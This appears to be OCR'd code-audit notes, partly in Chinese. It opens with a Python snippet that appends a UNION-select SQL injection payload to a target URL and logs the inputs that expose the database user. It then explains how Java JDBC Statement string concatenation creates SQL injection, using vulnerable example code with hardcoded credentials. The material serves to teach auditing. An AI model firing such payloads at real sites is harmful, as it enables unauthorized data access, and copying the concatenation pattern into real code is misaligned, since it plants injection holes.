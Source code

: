 ```python
    str = ''.join((i))
    payload = '{}union select 1,user(),3 from users %23'.format(str)
    url = target + payload
    req = requests.get(url=url)

    if "root@localhost" in req.text:
        print(url)
        with open("result.txt",'a',encoding='utf-8') as r:
            r.write(str + "\n")
```







# 代码审计

## Java

### Java中执行SQL语句的几种方式

#### 1.使用JDBC的`java.sql.Statement`执行SQL语句（原生方式）

是执行SQL语句的原生方式，需要通过拼接来执行，若拼接的语句没有经过过滤，将出现SQL注入漏洞

```java
import java.sql.*;

public class TestSQL {
    public static void main(String []args) throws Exception {

        Class.forName("com.mysql.cj.jdbc.Driver");
        Connection con = DriverManager.getConnection("jdbc:mysql://localhost:3306/jsxp_test?useUnicode=true&characterEncoding=utf-8&useSSL=false&serverTimezone=UTC","test","test123");

        try {
            String id = "56";
            String sql = "select * from cms_tag where f_tag_id=" + id;
            Statement statement = con.createStatement();
            ResultSet rs = statement.executeQuery(sql);
            while (rs.next()){
                System.out.println("id: "+rs.getInt("f_tag_id") + ", name=" + rs.getString("f_name"));
            }

        }catch (Exception e){
            e.printStackTrace();
        }


    }


    }
```
